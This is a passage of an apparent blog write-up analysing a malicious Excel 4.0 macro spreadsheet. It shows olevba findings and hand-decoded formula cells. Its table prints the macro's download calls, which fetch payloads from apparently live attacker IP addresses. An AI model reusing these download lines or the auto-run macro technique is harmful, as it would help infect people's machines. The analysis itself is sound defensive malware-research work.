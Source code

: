 ```
> olevba 2307013695_03162021.xls
...
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|Suspicious|FORMULA.FILL        |May modify Excel 4 Macro formulas at runtime |
|          |                    |(XLM/XLF)                                    |
|Suspicious|EXEC                |May run an executable file or a system       |
|          |                    |command using Excel 4 Macros (XLM/XLF)       |
|Suspicious|REGISTER            |May call a DLL using Excel 4 Macros (XLM/XLF)|
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```

There's definitely something strange going on here.
The macro is running system code with DLLs and/or EXEs.
It is also self-modifying to get around naive analysis techniques.

It was time to switch to a more flexible tool.
I had my Apache POI program from earlier so I [extended that](https://gist.github.com/sameer/882e04ecc45cfe3f4c5fd72386508805) to neatly print out all the relevant information.

<details><summary>Workbook breakdown (click to expand)</summary></details>

There aren't many online resources for what XLM macro functions do since they're so old.
Luckily, I came across the original macro help file from Excel 4.0[^4].
Armed with that I continued to evaluate the formula cells by hand.

[^4]: Microsoft Excel Macro Functions Help [in original .hlp](./Macrofun.hlp) or [in HTML](./Macrofun.html)

#### Current time

AO262 uses the [NOW](https://support.microsoft.com/en-us/office/now-function-3337fd29-145a-4347-b2e6-20c904739c46) function for getting the current date and time.
It's represented as the decimal number of days since 1 January 1900.

| Sheet | Address | Value | Evaluated |
|--|--|--|--|
|sheet1|AO262|NOW()&".dat"|44276.7967810764.dat|

#### Payload acquired :dart:

A0272 to A0277 use HERTY -- a custom function that downloads files by URL.
Replacing the cell references reveals those URLs:

| Sheet | Address | Simplified Value |
|--|--|--|
|sheet1|AO272|HERTY(0,"http://188.127.235.244/44276.7967810764.dat","..\Kiod.hod",0,0)|
|sheet1|AO273|HERTY(0,"http://193.38.54.244/44276.7967810764.dat","..\Kiod.hod1",0,0)|
|sheet1|AO274|HERTY(0,"http://185.82.217.213/44276.7967810764.dat","..\Kiod.hod2",0,0)|
|sheet1|AO275|HERTY(0,"http://44276.7967810764.dat","..\Kiod.hod3",0,0)|
|sheet1|AO276|HERTY(0,"http://44276.7967810764.dat","..\Kiod.hod4",0,0)|


[^3]: [Virus Alert by Weird Al Yankovic](https://www.youtube.com/watch?v=zvfD5rnkTws), YouTube
[^1]: [Desktop Operating System Market Share Worldwide](https://gs.statcounter.com/os-market-share/desktop/worldwide/#monthly-202012-202012-bar), *statcounter GlobalStats*, February 2021
[^2]: [Microsoft Excel > Macro programming > History](https://en.wikipedia.org/wiki/Microsoft_Excel#History), *Wikipedia*